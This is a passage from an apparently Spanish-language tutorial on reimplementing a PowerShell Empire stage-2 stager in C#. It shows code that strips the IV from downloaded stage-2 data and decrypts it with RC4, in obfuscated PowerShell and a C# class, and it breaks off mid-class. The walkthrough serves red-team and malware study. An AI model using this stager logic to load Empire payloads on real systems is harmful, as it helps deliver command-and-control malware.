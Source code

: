 ```console
El **IV** es un valor aleatorio que obtuvimos de los datos (stage 2) que descargamos, ese valor son los primeros 4 bytes del conjunto de datos. El IV es responsable de hacer aleatoria la comunicación con el servidor de Empire, ya que este valor es elegido al azar cada vez que descarga la segunda etapa (stage 2).

```console
// PowerShell Extract IV from data
$iv=$data[0..3];
 
// C# Extract IV from data
byte[] iv = data.Take(4).Select(i => i).ToArray();
 
Finalmente, eliminamos el IV de los datos, porque esos no son datos solo ese valor aleatorio:
 
// PowerShell Remove IV from data
$data=$data[4..$data.Length];
 
// C# Remove the IV from the data
byte[] data_noIV = data.Skip(4).ToArray();
```console

# Cifrado RC4
 
Aquí es donde ocurre toda la magia, si hiciste clic en el enlace sobre la publicación del blog Harm0jy sobre RC4, entenderás qué es este fragmento de código, esta es la minimización de la implementación de RC4 para descifrar o ejecutar comunicaciones de malware. Para C# encontré 2 clases de RC4 que copio y pegar aquí, la que utilicé en el código fue creada por Jeong ChangWook, [aquí su fuente](https://gist.github.com/hoiogi/89cf2e9aa99ffc3640a4)

```console
// PowerShell RC4 function to decrypt the stage 2 data.
$R={$D,$K=$ARGs;
$S=0..255;
0..255|%{$J=($J+$S[$_]+$K[$_%$K.COuNT])%256;
$S[$_],$S[$J]=$S[$J],$S[$_]};
$D|%{$I=($I+1)%256;
$H=($H+$S[$I])%256;
$S[$I],$S[$H]=$S[$H],$S[$I];
$_-bXOr$S[($S[$I]+$S[$H])%256]}};
 
// C# RC4 Class to decrypt the stage 2 data
// Created by Jeong ChangWook. Source https://gist.github.com/hoiogi/89cf2e9aa99ffc3640a4
public class RC4
{
	public static byte[] Encrypt(byte[] pwd, byte[] data)
	{
		int a, i, j, k, tmp;
		int[] key, box;
		byte[] cipher;

		key = new int[256];
		box = new int[256];
		cipher = new byte[data.Length];

		for (i = 0; i < 256; i++)
		{
			key[i] = pwd[i % pwd.Length];
			box[i] = i;
		}
		for (j = i = 0; i < 256; i++)
		{
			j = (j + box[i] + key[i]) % 256;
			tmp = box[i];
```
